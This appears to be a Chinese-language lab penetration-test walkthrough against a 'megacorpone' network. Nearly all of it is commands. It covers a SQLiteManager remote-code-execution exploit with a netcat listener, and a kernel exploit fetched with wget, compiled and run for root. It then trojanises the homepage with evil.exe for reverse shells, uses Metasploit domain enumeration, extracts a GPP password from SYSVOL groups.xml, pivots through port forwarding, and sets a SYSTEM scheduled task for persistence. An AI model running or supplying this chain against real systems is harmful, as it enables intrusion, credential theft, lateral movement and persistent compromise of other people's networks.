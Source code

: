 在后台找到sqlitemanager的版本,去exdb查找是否有对应的exp

成功找到对应的exp,并修改利用:
python sqlite-rce-fixed.py http://admin.megacorpone.com:81/admin/sqlite/ 208.68.234.99(kali-ip) 443 admin xxxxxx
nc -nvlp 443

成功获得一个www-root权限的shell,查看内核版本:
uname -a

发现存在内核溢出漏洞,查找对应的exp:
cd /tmp
wget -o gimmeroot.c http://www.exploit-db/download/18411
gcc gimmeroot.c -o gimmeroot
./gimmeroot

成功提权为root
python -c 'import pty;pty.spawn("/bin/bash")'

查找这台机器上的文件,以获取更多信息,在web的根目录中的.htaccess文件中,发现了内网ip段
查看apache的日志文件,发现其承载了一些java小程序

使用上面编写的java小程序,替换主页中的部分内容,以及evil.exe
使用msf开启侦听,一旦该用户访问我们替换过的页面,我们就会获得一个回弹shell

ipconfig查看回连过来的ip,发现是10.7.0.22
使用msf中的模块收集域信息:
use post/windows/gather/enum_domain
set session 1
run

找到域控的名称和ip: dc01 (10.7.0.21)
下载groups.xml,并查看,得到一个hash:
net use z:\\dc01\SYSVOL
z:
dir /s groups.xml
copy z:\groups.xml c:\users\downloads
cd c:\users\downloads
type groups.xml

使用gpp-decrypt破解这个hash,成功得到管理员密码(10.7.0.22)
添加路由:
route add 10.7.0.0 255.255.255.0 1

端口转发:
portfwd add -l 445 -p 445 -r 10.7.0.22

以管理员身份登录:
winexe -U Administrator%password //127.0.0.1 "cmd"

权限维持:
schtasks /create /ru SYSTEM /sc MINUTE /MO 10 /tn megapwn /tr "\"C:\\users\\downloads\\evil.exe""

关闭端口转发:
portfwd delete -l 445 -p 445 -r 10.7.0.22

重新侦听以获得系统级权限的meterpreter回连shell
